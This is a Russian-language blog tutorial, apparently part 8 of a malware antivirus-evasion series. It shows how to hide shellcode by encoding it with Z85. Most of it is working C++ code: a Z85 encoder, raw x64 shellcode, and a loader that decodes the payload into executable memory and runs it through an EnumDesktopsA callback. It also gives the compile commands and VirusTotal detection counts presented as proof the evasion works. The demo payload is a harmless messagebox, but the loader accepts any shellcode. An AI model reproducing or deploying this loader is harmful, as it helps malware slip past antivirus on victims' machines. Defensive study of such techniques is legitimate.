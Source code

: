 \newpage
\subsection{61. Обход антивирусной защиты - часть 8. Кодирование полезной нагрузки с помощью алгоритма Z85. Пример на C++.}

﷽

![av-evasion](./images/64/2022-07-31_16-39.png){width="80%"}

Эта статья является результатом моего собственного исследования интересного трюка: кодирование полезной нагрузки с помощью алгоритма Z85.

Поскольку методы шифрования полезной нагрузки с помощью алгоритмов [AES](https://github.com/cocomelonc/peekaboo/tree/aes) и [XOR](https://cocomelonc.github.io/tutorial/2021/09/04/simple-malware-av-evasion.html) и кодирования (например, с помощью алгоритма base64) были достаточно хорошо изучены участниками Blue Team, возник вопрос о том, чтобы попытаться скрыть полезную нагрузку нестандартным способом.

### Z85

*Ascii85*, также называемый *Base85*, представляет собой форму двоично-текстового кодирования, используемую для передачи произвольных двоичных данных по каналам, которые были разработаны для передачи только читаемого человеком текста на английском языке. *Z85* - формат для представления двоичных данных в виде печатного текста. [Z85](https://rfc.zeromq.org/spec/32/) - это производная от существующих механизмов кодирования Ascii85, модифицированная для лучшего удобства использования, особенно для использования в исходном коде.

### практический пример

Давайте рассмотрим практический пример. Сначала закодируем нашу полезную нагрузку через Z85 (`encode.cpp`):

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <./z85.h>
#include <./z85.c>
#include <windows.h>

char* encode(const char* src, size_t len) {
   // allocate output buffer (+1 for null terminating char)
   char* dest = (char*)malloc(Z85_encode_with_padding_bound(len) + 1);

   if (len == 0) {
      dest[0] = '\0'; // write null terminating char
      return dest;
   }

   // encode the input buffer, padding it if necessary
   len = Z85_encode_with_padding(src, dest, len);

   if (len == 0) { // something went wrong
      free(dest);
      return NULL;
   }

   dest[len] = '\0'; // write null terminating char

   return dest;
}

unsigned char payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main() {
   char* str = encode((const char*)payload, sizeof(payload));
   if (str) {
      printf("%s\n", str);
      free(str);
   }
   return 0;
}
```

Затем скомпилируем его:

```bash
x86_64-w64-mingw32-g++ -O2 encode.cpp -o encode.exe \
-I/usr/share/mingw-w64/include/ \
-I/home/cocomelonc/hacking/cybersec_blog/2022-07-29-malware-av-evasion-8 \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![av-evasion](./images/64/2022-07-31_16-54.png){width="80%"}

и запустим:

```powershell
.\encode.exe
```

![av-evasion](./images/64/2022-07-31_17-17.png){width="80%"}

Как обычно, для простоты я использовал полезную нагрузку `meow-meow` messagebox:

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

Затем, на следующем этапе мы помещаем эту закодированную полезную нагрузку в нашу "вредоносную программу". Я взял технику запуска полезной нагрузки из одной из [предыдущих](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html) статей:

```cpp
/*
* hack.cpp
* Z85 encode payload
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2022/07/30/malware-av-evasion-8.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <./z85.h>
#include <./z85.c>
#include <windows.h>

int main(int argc, char* argv[]) {
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  char e_my_payload[] = "2@78z1[C&K*>*fqf06%EFp/pd>nhnL7nq*wNk1HPf7^pGGqxOd]I/"
  "ISTndSg4n>?4Znhm]YjyJQsefEl{:QHJp.q:&Wk#x*pI=7VYI:xJ%0"
  "NK2*Fqsg907.*VBz<XJ=}(]:neKJUI:eyR0NP>inDl^}l5NNQncdpo"
  "g08%vZ]P&r:QHJp.8Qv}[JGRGoE6)jiNJ02suYchkQn]4=$kEcIWScum2KqInDEg4l5L"
  "(4ncd76sv34}sZ19[l0lGSnq3mKk#N:vsv37[k1HOA>$g{P%6njp.2KDn06S@kL]"
  "oV606T8oG^u:107X&^laPHqrTnVPYwKXV3phn2Ma-:*!"
  "KUthc{dYY3v@3iBP]xE6ln2a09IQA*w/X$wP8=AzdNTfaPKVie?QD[00000";
  char d_my_payload[314] = {};
  size_t d = Z85_decode_with_padding(e_my_payload, d_my_payload, strlen(e_my_payload));
  LPVOID mem = VirtualAlloc(NULL, sizeof(d_my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, d_my_payload, sizeof(d_my_payload));
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, 0);
  return 0;
}
```

Большое спасибо [@artemkin](https://github.com/artemkin/z85) за реально работающую реализацию C/C++, а также кодирование/декодирование с заполнением.

### демо

Давайте посмотрим все в действии. Скомпилируем нашу "вредоносную программу":

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-I/home/cocomelonc/hacking/cybersec_blog/2022-07-29-malware-av-evasion-8 \
-L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![av-evasion](./images/64/2022-07-31_17-21.png){width="80%"}     

и запускаем на машине нашей жертвы:

```powershell
.\hack.exe
```

![av-evasion](./images/64/2022-07-31_17-32.png){width="80%"}

Как видите, все работает отлично :)

Давайте загрузим `hack.exe` на VirusTotal:

![av-evasion](./images/64/2022-07-31_17-34.png){width="80%"}

**Итак, 14 из 70 антивирусных движков определяют наш файл как вредоносный.**

[https://www.virustotal.com/gui/file/6345f46e33919dd1e0691508a1f705d33ed44aadbdd1bb01a15fdad628b29fca/detection](https://www.virustotal.com/gui/file/6345f46e33919dd1e0691508a1f705d33ed44aadbdd1bb01a15fdad628b29fca/detection)    

если вы помните, эта техника без кодирования показала результат **16 из 66**:

![av-evasion](./images/60/2022-06-27_14-37.png){width="80%"}

[https://www.virustotal.com/gui/file/657ff9b6499f8eed373ac61bf8fc98257295869a833155f68b4d68bb6e565ca1/detection](https://www.virustotal.com/gui/file/657ff9b6499f8eed373ac61bf8fc98257295869a833155f68b4d68bb6e565ca1/detection)

**Мы уменьшили количество антивирусных движков, которые обнаруживают наше вредоносное ПО, с 16 до 14**!

Поэтому можно предположить, что уклонение работает.

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.

[Z85](https://rfc.zeromq.org/spec/32/)    
[https://github.com/artemkin/z85](https://github.com/artemkin/z85)    
[EnumDesktopsA](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-enumdesktopsa)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-07-29-malware-av-evasion-8)      
